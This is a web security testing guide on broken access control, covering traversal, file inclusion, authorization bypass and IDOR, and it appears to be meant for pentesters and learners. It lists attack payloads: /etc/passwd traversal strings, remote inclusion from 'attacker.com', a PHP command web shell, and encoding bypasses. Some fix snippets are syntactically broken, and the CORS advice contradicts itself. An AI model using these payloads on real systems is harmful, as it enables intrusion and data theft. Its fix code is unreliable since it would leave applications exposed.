


<div align='center'>

# **Broken Access Control**

</div>

## **Table of Content**

- [**1. Description**](#1-description)
- [**2. How to test**](#2-how-to-test)
    - [**2.1. Directory traversal**](#21-directory-traversal)
    - [**2.2. Authorization Schema Bypass**](#22-authorization-schema-bypass)
    - [**2.3. Privilege Escalation**](#23-privilege-escalation)
    - [**2.4. IDOR**](#24-idor)
- [**3. How to fix**](#3-how-to-fix)
- [**4. How to bypass**](#4-how-to-bypass)
- [**5. Tools**](#5-tools)
- [**6. References**](#6-references)


## **1. Description**

Access control, sometimes called authorization, is how a web application grants access to content and functions to some users and not others. These checks are performed after authentication, and govern what 'authorized' users are allowed to do. Access control sounds like a simple problem but is insidiously difficult to implement correctly. A web application’s access control model is closely tied to the content and functions that the site provides. In addition, the users may fall into a number of groups or roles with different abilities or privileges.

Broken access control refers to a security vulnerability that occurs when an application does not properly restrict access to sensitive resources, such as user accounts, data, or functionality. This vulnerability can be exploited by attackers to gain unauthorized access to sensitive information, perform actions that should be restricted, or escalate their privileges to gain administrative access

There are some common broken access control vulnerabilities:

-   **Directory traversal**: This vulnerability occurs when an application allows a user to access files and directories that are outside the intended directory.
-  **Local file inclusion (LFI)**: This vulnerability occurs when an application includes local files through user-supplied input. This can be used to read sensitive files on the server, including configuration and source code files.
-   **Remote file inclusion (RFI)**: This vulnerability occurs when an application includes files from remote servers through user-supplied input. This can be used to read sensitive files on the server, including configuration and source code files.
-   **Insecure direct object references (IDOR)**: This vulnerability occurs when an application uses predictable or sequential identifiers to access objects, such as user accounts, files, or database entries.
-   **Privilege escalation**: A user gets access to more resources or functionality than they are normally allowed, and such elevation or changes should have been prevented by the application
-   **Bypassing authorization schema**: Bypassing the restrictions and limitations set by an application's authorization mechanism, such as a user role or access level.

For example, in this [Web Project](./Vuln%20Web/) this php function `include` when not implement correctly, the attacker can retrieve the content of any file on server.

```php
include("/var/www/html/".str_replace("../","",$file));
```
If the attacker send the payload `....//....//....//....//etc/passwd` the function will return the content of the file `/etc/passwd


## **2. How to test**

### **2.1. Directory traversal**

- [ ] Identify the injection point on the URL, Cookie.
- [ ] Test for local file inclusion (LFI)
- [ ] Test for remote file inclusion (RFI)
- [ ] Test traversal on the URL parameters
- [ ] Test traversal on the cookie parameters

**OS Specific**

- [ ] Unix
    -   Root directory: `/`
    -   Directory separator: `/`
- [ ] Windows
    -   Root directory: `<drive letter>:`
    -   Directory separator: `\` or `/`
- [ ] MacOS
    -   Root directory: `/`
    -   Directory separator: `/`

**Top 25 parameter that could be vulnerable to local file inclusion (LFI) vulnerabilities**

- [ ] ?cat={payload}
- [ ] ?dir={payload}
- [ ] ?action={payload}
- [ ] ?board={payload}
- [ ] ?date={payload}
- [ ] ?detail={payload}
- [ ] ?file={payload}
- [ ] ?download={payload}
- [ ] ?path={payload}
- [ ] ?folder={payload}
- [ ] ?prefix={payload}
- [ ] ?include={payload}
- [ ] ?page={payload}
- [ ] ?inc={payload}
- [ ] ?locate={payload}
- [ ] ?show={payload}
- [ ] ?doc={payload}
- [ ] ?site={payload}
- [ ] ?type={payload}
- [ ] ?view={payload}
- [ ] ?content={payload}
- [ ] ?document={payload}
- [ ] ?layout={payload}
- [ ] ?mod={payload}
- [ ] ?conf={payload}

Once you have identified the injection point, you can use the following payloads to test


**Payloads:**

- Basic payloads

    - Local file inclusion (LFI)
        - Linux:
            - [ ] `/etc/passwd`
            - [ ] `../../../../etc/passwd`
        - Windows:
            - [ ] `c:\boot.ini`
            - [ ] `../../../../boot.ini`

    - Remote file inclusion (RFI)
        - [ ] `http://attacker.com/evil.txt`
        - [ ] `http://attacker.com/evil.txt?param=1`

- Wrapper (This can only be used if it is a php application)

    - [ ] php://filter

        - [ ] `php://filter/convert.base64-encode/resource=index.php` (the output will be the base64 encoded content of the file index.php)
        - [ ] `php://filter/convert.iconv.utf-8.utf-16/resource=index.php` (the output will be the content of the file index.php in utf-16 encoding)
        - [ ] `php://filter/convert.base64-encode/resource=index.php` (the output will be the base64 encoded content of the file index.php)

    - [ ] zip:// and rar://

        - Create an evil php file shell.php with the following content:

            ```php
            <?php
            echo system($_GET['cmd']);
            ?>
            ```
        - zip or rar the file shell.php

            ```zsh
            zip shell.zip shell.php
            ```
            ```zsh
            rar a shell.rar shell.php
            ```

        - Upload the zip file to the server and try to access it using the wrapper `zip://shell.zip#shell.php?cmd=ls` or `rar://shell.rar#shell.php?cmd=ls`
    - [ ] data://

        - [ ] `data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTs/Pg==` (Note: the payload is base64 encoded, the decoded payload is `<?php echo system($_GET['cmd']);?>`)

    - [ ] expect://

        - [ ] expect://id

    - [ ] input://
        - Specify your payload in the POST parameters
            ```
            http://example.com/index.php?page=php://input
            POST DATA: <?php system('id'); ?>
            ```
    - file:// - Access local filesystem: `file:///path/to/file.txt`
    - http:// - Access HTTP(s) URLs: `http://example.com/file.php?var1=val1&var2=val2`
    - ftp:// - Access FTP URLs: `ftp://example.com/pub/ file.txt`
    - zlib://, bzip2:// - Compress data: `compress.zlib://`, `compress.bzip2://`            

More payloads can be found here:

-   [PayloadsAllTheThings - LFI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
-   [PayloadsAllTheThings - Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)
-   [PathTraversal Fuzz String](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/Traversal.txt)
-   [HackTricks - Directory Traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

**Vulnerbility functions**

- [ ] **php:** include(), include_once(), require(), require_once(), fopen(), readfile(), file_get_contents(), ...
- [ ] **JSP/Servlet:** java.io.File(), java.io.FileReader(), ...
- [ ] **asp:** include file, include virtual, ...
- [ ] **python:** open(), os.path.join(), os.rename(), shutil.copyfile(), Flask send_from_directory(), ...

### **2.2. Authorization Schema Bypass**

- [ ] Testing for Horizontal Bypassing Authorization Schema

    - [ ] Is it possible to access resources that should be accessible to a user that holds a different identity with the same role or privilege?
    - [ ] Is it possible to operate functions on resources that should be accessible to a user that holds a different identity?

- [ ] Testing for Access to Administrative Functions

    - [ ] Identify the administrative functions
    - [ ] Is it possible to access administrative functions without being authenticated as an administrator?

- [ ] Testing for Access to Resources Assigned to a Different Role

    - [ ] Is it possible to access resources assigned to a different role?
    - [ ] Is it possible to retrive them, modify them, or delete them?

- [ ] Test override the target with custom headers

```
X-Original-URL
X-Rewrite-URL
X-Forwarded-For
X-Forward-For
X-Remote-IP
X-Originating-IP
X-Remote-Addr
X-Client-IP
```

### **2.3. Privilege Escalation**

- [ ] Testing for Role/Privilege Manipulation

    - [ ] Manipulation of User Group
    - [ ] Manipulation of User Profile
    - [ ] Manipulation of Condition Value
    - [ ] Manipulation of IP Address

- [ ] Testing for Vertical Bypassing Authorization Schema

    - [ ] Is it possible to access resources that should be accessible only to a higher role user.
    - [ ] Is it possible to operate functions on resources that should be operative only by a user that holds a higher or specific role identity.

- [ ] Testing for Path Traversal
- [ ] Testing for Weak Session ID

    - [ ] Identify the session ID
    - [ ] Check for predictable session IDs
    - [ ] Check for short session IDs: Short session IDs can be vulnerable to brute force attacks.
    - [ ] Check for session hijacking: Session hijacking is a vulnerability that allows an attacker to steal the session ID of a user.
    - [ ] Check for session fixation: Session fixation is a vulnerability that allows an attacker to set the session ID for a user before they log in.
    - [ ] Check for session timeout
    - [ ] Check for session regeneration: Test to see if the application regenerates the session ID after a user logs in or performs a sensitive action.
    - [ ] Check for session revocation: Test to see if the application has a mechanism to revoke a session ID when a user logs out or when an administrator revokes their access.
    - [ ] Check for secure transport: Test to see if the session ID is transmitted securely over SSL/TLS to prevent interception by attackers.


### **2.4. IDOR**

- [ ] Test to change the ID parameter

    Example test:

    - Suppose that the application has a page that displays the details of a user with the following URL: `http://example.com/user?id=1`
    - Test by changing the id parameter to a different value, such as `http://example.com/user?id=2`
    - If the application displays the details of the user with ID 2, then it may vulnerable to IDOR.

- [ ] Test to add parameters at the endpoints

    Example test:

    - Suppose that the application has a page that displays the details of a user with the following URL: `http://example.com/user?id=1`
    - Test by adding a parameter at the end, such as `http://example.com/user?id=1&test=1`
    - If the application displays the details of the user with ID 1, then it may vulnerable to IDOR.

- [ ] Test for HTTP parameter pollution

    Example test:

    - Suppose that the application has a page that displays the details of a user with the following URL: `http://example.com/user?id=1`
    - Test by adding a parameter at the end, such as `http://example.com/user?id=1&id=2`
    - If the application displays the details of the user with ID 2, then it may vulnerable to IDOR.
    
- [ ] Test by adding an extension at the end

    Example test:

    - Suppose that the application has a page that displays the details of a user with the following URL: `http://example.com/user?id=1`
    - Test by adding an extension at the end, such as `http://example.com/user?id=1.html`
    - If the application behave differently than expected, then it may vulnerable to IDOR.

- [ ] Test with outdated API versions

    Example test:

    - Suppose that there is a request like this:

    ```
    POST /api/v2/get_profile HTTP/1.1
    Host: example.com
    ...

    id=123
    ```

    - Test by changing the request to use an outdated API version, such as `POST /api/v1/get_profile HTTP/1.1`

- [ ] Test by wrapping the ID with an array

    Example test:

    - Suppose that the application has a page that displays the details of a user with the following URL: `http://example.com/user?id=1`
    - Test by adding an extension at the end, such as `http://example.com/user?id[]=1` or `http://example.com/user?id=[1]`
    - If the application display other details of a user with different ID, then it may vulnerable to IDOR.

- [ ] Test by wrapping the ID with a JSON object

    Example test:

    - Suppose that there is a request like this:
    ```
    POST /api/get_profile HTTP/1.1
    Host: example.com
    ...

    {"user_id":111}
    ```
    - Test by changing the user_id to `{"user_id":{"user_id":111}}`

- [ ] Test for JSON parameter pollution

    Example test:

    - Suppose that there is a request like this:
    ```
    POST /api/get_profile HTTP/1.1
    Host: example.com
    ...

    {"user_id":111}
    ```
    - Test by changing the user_id to `{"user_id":111,"user_id":222}` or `{"user_id":[111,222]}`

- [ ] Test by decode the id

    Example test:

    - Suppose that there is a request like this:

    ```
    GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1.1
    Host: example.com
    ...
    ```
    - Test by decoding the id: `dmljdGltQG1haWwuY29t => victim@mail.com` (base64)

- [ ] Test by changing the case

    Example test:

    - Suppose that there is a request like this:

    ```
    GET /admin/profile HTTP/1.1
    Host: example.com
    ...
    ```
    - Test by changing the case: `/admin/profile` => `/ADMIN/Profile`

- [ ] Test for path traversal

    Example test:

    - Suppose that there is a request like this:

    ```
    GET /admin/profile HTTP/1.1
    Host: example.com
    ...
    ```
    - Test by adding a path traversal: `/admin/profile` => `/admin/../../profile`

- [ ] Test by changing request Content-Type

    Example test:

    - Suppose that there is a request like this:

    ```
    GET /api/v1/users/1 HTTP/1.1
    Host: example.com
    Content-type: application/xml
    ...
    ```
    - Test by changing the Content-Type: `application/xml` => `application/json`

- [ ] Test by changing methods

    Example test:

    - Suppose that there is a request like this:

    ```
    GET /api/v1/users/1 HTTP/1.1
    Host: example.com
    ...
    ```
    - Test by changing the method: GET => POST

- [ ] If the website using GraphQL, you can use it to test:

    Example test:

    - Suppose that there is a request like this:

    ```
    GET /graphql HTTP/1.1
    Host: example.com
    ...
    ```
    - You can test like this:

    ```
    GET /graphql.php?query= HTTP/1.1
    Host: example.com
    ...
    ```

- [ ] Test by sending wildcard instead of ID

    Example test:

    - Suppose that there is a request like this:

    ```
    GET /api/v1/users/1 HTTP/1.1
    Host: example.com
    ...
    ```
    - You can test like this:

    ```
    GET /api/v1/users/* HTTP/1.1
    Host: example.com
    ...
    ```

    ```
    GET /api/v1/users/% HTTP/1.1
    Host: example.com
    ...
    ```

    ```
    GET /api/v1/users/_ HTTP/1.1
    Host: example.com
    ...
    ```

    ```
    GET /api/v1/users/. HTTP/1.1
    Host: example.com
    ...
    ```

## **3. How to fix**

**General**

-   Identify all access control points in your application, including user roles, permissions, and authorization mechanisms.
-   Conduct a security assessment of your application to identify potential vulnerabilities and security gaps in your access control mechanisms.
-   Implement a strong and secure authentication and authorization mechanism, such as OAuth or OpenID Connect, that can handle different user roles and permissions.
-   Use input validation and sanitization to ensure that user input is valid and does not contain malicious code or scripts.
-   Enforce the principle of least privilege by ensuring that users have only the minimum level of access necessary to perform their tasks.
-   Restricting access to all resources or functionality unless they’re intended to be public.
-   Implement session management mechanisms to control user sessions and prevent unauthorized access.
-   Regularly monitor and audit access logs and user activities to identify any suspicious or unauthorized access attempts.
-   If (Cross-Origin Resource Sharing) CORS is enabled, try to limit CORS usage. Ensure that the Access-Control-Allow-Origin header is set to a specific domain or a wildcard, and not set to *.

**Directory Traversal**

- Validate user input: Implement strict input validation to ensure that user-supplied input is within the expected boundaries.

- Implement Access Control: Implement access controls on the server to restrict access to sensitive files and directories

- Sanitize file names: Sanitize user-supplied file names to remove any special characters or path separators that could be used to navigate outside of the web root directory

    Example:

    ```php
    while (strpos($str, '../') !== false) {
        $str = str_replace('../', '', $str);
    }
    ```

- Use whitelisting: Use whitelisting to restrict file access to only known, safe files and directories. 

    Example:

    ```php
    allowed = [list of allowed files]
    if in_array($file, allowed) {
        include("/var/www/html/".$file);
    }
    ```

- Use database: Use a database to store file names and paths, and retrieve the file names and paths from the database when needed.

- Use a secure file handling library: Use a secure file handling library that has been designed to prevent Directory Traversal attacks. 


In the example that is in previous section, the `include` function mentioned in the previous section can be fixed by applying whitelist validation to the input parameter.

```php
allowed = ['about', 'contact', 'home', 'services']
if in_array($file, allowed) {
    include("/var/www/html/".$file);
}
```

**Authorization Schema Bypass**

-   Review the authentication and authorization mechanisms in use:
-   Implement secure coding practices
-   Implement access control checks on both the server and client side
-   Use encryption to secure sensitive data
-   Regularly perform security testing
-   Implement a security monitoring system   

**Privilege Escalation**

-   Review the permissions of users, groups, and other entities that can access the system or its resources
-   Limit user input
-   Audit logs
-   Apply updates and patches
-   Use role-based access control
-   Conduct regular security assessments
-   Implement Multi-Factor Authentication
-   Secure configuration management

**IDOR**

-   Identify the sensitive resources: Identify the sensitive resources in your application that are accessible through direct object references
-   Implement access controls: Implement access controls to restrict access to sensitive resources based on user permissions
-   Use indirect references: Use indirect references instead of direct object references to access sensitive resources. Indirect references could be a lookup table, a mapping function, or any other mechanism that provides an abstraction layer between the user input and the actual resource.

    Example:

    ```php
    // Define a mapping of indexes to object IDs
    $mapping = array(
        1 => 1234,
        2 => 5678,
        3 => 9101
    );

    // Get the index from the URL
    $index = $_GET['index'];

    // Look up the corresponding object ID in the mapping
    $objectId = $mapping[$index];

    // Check if the user is authorized to access the object
    if (isAuthorized($user, $objectId)) {
        // Process the request
    } else {
        // Return an error response
    }
    ```

-   Validate user input: Validate user input to ensure that the user is authorized to access the requested resource. This could be done by checking the user's credentials, session information, or any other relevant data.

## **4. How to bypass**

**Directory traversal**

- Absolute path (`/etc/passwd`)
- Null byte (`../../../../../etc/passwd%00`) (This is only work when the php version is 5.3.4 or lower)
- URL encoding (`%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd`)
- 16 bits URL encoding

    ```
    . = %u002e
    / = %u2215
    \ = %u2216
    ```
- UTF-8 Unicode encoding 

    ```
    . = %c0%2e, %e0%40%ae, %c0ae
    / = %c0%af, %e0%80%af, %c0%2f
    \ = %c0%5c, %c0%80%5c
    ```

- Double URL encoding (%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd)
- Start with existen
- Bypass `../` replace by "" non-recursively (`....//` or `..././)
- Bypass `../` with `;` (`..;/`)
- Bypass `../../` check (`.././../`)
- Windows UNC Bypass (`\\localhost\c$\windows\win.ini`)
- NGINX/ALB Bypass

    NGINX in certain configurations and Application LoadBalancer (ALB) can block traversal attacks in the route, For example: http://nginx-server/../../ will return a 400 bad request.

    To bypass this behaviour just add forward slashes in front of the url: http://nginx-server////////../../
- Java Bypass 
    ```
    url:file:///etc/passwd
    url:http://127.0.0.1:8080
    ```

## **5. Tools**

**Directory traversal**
- [Dotdotpwn](https://github.com/wireghoul/dotdotpwn)

    Example Usage:

    ```
    dotdotpwn -m http-url -u http://example.com/index.php?page=TRAVERSAL -o unix -f /etc/passwd -k "root:" -r trick.txt -d 4
    ```
    - `-m` : The module to use. In this case, we are using the http-url module.
    - `-u` : The URL to test. The program will replace the TRAVERSAL string with the traversal patterns string.
    - `-o` : The operating system to use. In this case, we are using the unix operating system.
    - `-f` : The file to retrieve. In this case, we are retrieving the /etc/passwd file.
    - `-k` : The keyword to search for. In this case, we are searching for the root user.
    - `-r` : The file to save the results to. In this case, we are saving the results to the trick.txt file.
    - `-d` : The depth of the traversal. In this case, we are using a depth lower or equal than 4.
    
    After running for a while, we get the result:

    

    

- [Burp Suite](https://portswigger.net/)
    -   [Autorize Extension](https://github.com/codespaces)

    Example Usage: [here](./doc/Autorize.md)
    
- [GoBuster](https://github.com/OJ/gobuster)
- [grep command](http://man7.org/linux/man-pages/man1/egrep.1.html)
- Encoding/Decoding Tools: Use for URL Encoding payload

## **6. References**

- https://owasp.org/Top10/A01_2021-Broken_Access_Control/
- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/README
- https://book.hacktricks.xyz/pentesting-web/file-inclusion
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal
- https://nordicapis.com/how-to-fix-broken-access-control/
- https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Testing_Automation_Cheat_Sheet.html